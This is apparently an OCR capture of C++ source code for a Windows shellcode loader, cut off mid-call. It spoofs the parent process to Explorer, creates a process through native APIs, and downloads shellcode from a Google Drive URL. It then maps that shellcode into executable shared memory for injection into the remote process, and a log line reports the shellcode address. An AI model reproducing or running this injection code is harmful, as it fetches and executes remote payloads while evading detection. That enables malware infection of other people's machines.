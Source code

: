 ```
	DWORD trayPID;
	HWND trayWnd = FindWindowW(L"Shell_TrayWnd", NULL);
	GetWindowThreadProcessId(trayWnd, &trayPID);
	HANDLE hParent = OpenProcess(PROCESS_ALL_ACCESS, false, trayPID);
	if (hParent)
	{
		AttributeList->Attributes[5].Attribute = PS_ATTRIBUTE_PARENT_PROCESS;
		AttributeList->Attributes[5].Size = sizeof(HANDLE);
		AttributeList->Attributes[5].ValuePtr = hParent;
	}
	else
	{
		AttributeList->TotalLength -= sizeof(PS_ATTRIBUTE);
	}
	
	/* Process Injection */

	// Create the process
	HANDLE ntHandle = NULL, ntThread = NULL;
	ntCreateUserProcess(&ntHandle, &ntThread, MAXIMUM_ALLOWED, MAXIMUM_ALLOWED, &objAttr, &objAttr, 0x00000200, 0x00000001, ProcessParameters, &CreateInfo, AttributeList);

	// download shellcode
	std::vector<BYTE> shellcode = Download(L"www.drive.google.com\0", L"/u/5/uc?id=1WUDbPX-v47lxMcE0e9K_Uqk6G83AZa5_&export=download\0");

	// create section in local process
	HANDLE localSection;
	LARGE_INTEGER localszSection = { shellcode.size() };

	NTSTATUS status = ntCreateSection(
		&localSection,
		SECTION_ALL_ACCESS,
		NULL,
		&localszSection,
		PAGE_EXECUTE_READWRITE,
		SEC_COMMIT,
		NULL);

	// map section into memory of local process
	PVOID hLocalAddress = NULL;
	SIZE_T viewSize = 0;

	status = ntMapViewOfSection(
		localSection,
		GetCurrentProcess(),
		&hLocalAddress,
		NULL,
		NULL,
		NULL,
		&viewSize,
		ViewShare,
		NULL,
		PAGE_EXECUTE_READWRITE);

	// copy shellcode into local memory
	RtlCopyMemory(hLocalAddress, &shellcode[0], shellcode.size());

	// map section into memory of remote process
	PVOID hRemoteAddress = NULL;

	status = ntMapViewOfSection(
		localSection,
```

[+]: Shellcode located at c7160